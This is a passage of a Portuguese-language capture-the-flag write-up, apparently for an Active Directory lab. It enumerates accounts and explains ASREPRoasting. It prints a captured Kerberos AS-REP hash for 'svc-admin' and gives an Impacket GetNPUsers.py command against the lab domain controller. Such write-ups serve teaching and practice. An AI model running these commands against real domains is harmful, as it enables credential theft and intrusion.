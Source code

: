 A conta que chama atenção aqui é `"svc-admin"`.

### **3.** **What is the other notable account is discovered?**

A outra conta que chama atenção é a conta `"backup"`.


![task_4](task_4.png)

---

## **<a id="5"> • Abusing Kerberos.</a>**

Após a conclusão da enumeração das contas de usuário, podemos tentar abusar de um recurso do Kerberos com um método de ataque chamado ASREPRoasting. ASReproasting ocorre quando uma conta de usuário tem o privilégio "Não requer pré-autenticação" definido. Isso significa que a conta não precisa fornecer uma identificação válida antes de solicitar um tíquete Kerberos na conta de usuário especificada.

Quando fizemos o scan com o Kerbrute, vimos que a conta `"svc-admin"` não requer pré-autenticação e que foi possível obter o hash da conta.

```text
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:f9dc7f8e405ced94d5a484133ec7ce55$c120918b5ea1549e9f8728e82d06f8290df0ef3342d168201252df5e4e1f96d53b5911ed96c12a4876a94ec9fdabed3c2a0ff6624bea2d97f81b6bcff6eea9dbe3d7afb86e10c4cc42a21d6739a8eb8c4c6f91b7a1b036f819f3f437e0564468643e0e25fe736fed951424632e9fc7484ae9ad7bdc94c54d6c09f3e6e5e889d06233718ad41602a4c78b3366a58c9836a365494e82f1a23524bb102fea4606f009360139d8070c2e6d6fe924a3db8f2019f58744882a2e363e611baeb0af3ee82d8ef157de727ac8ddfd757141bd5b319db60b098696a17894c5dd6b43d2f228e2e36c1b44b71b832706707651ceb2e77604
```

Também é possivel obter o mesmo resultado utilizando uma ferramenta do `Impacket` chamada `GetNPUsers.py` utilizando o comando "`python GetNPUsers.py -no-pass -usersfile ./users.txt -dc-ip 10.10.4.102 spooky.local/`".

Onde temos: 

- `-no-pass:` Não pede senha.
- `-usersfile:` Arquivo com os usuários que queremos testar.
- `-dc-ip:` IP do servidor.
- `spooky.local/` Domínio que encontramos anteriomente utilizando o nmap.
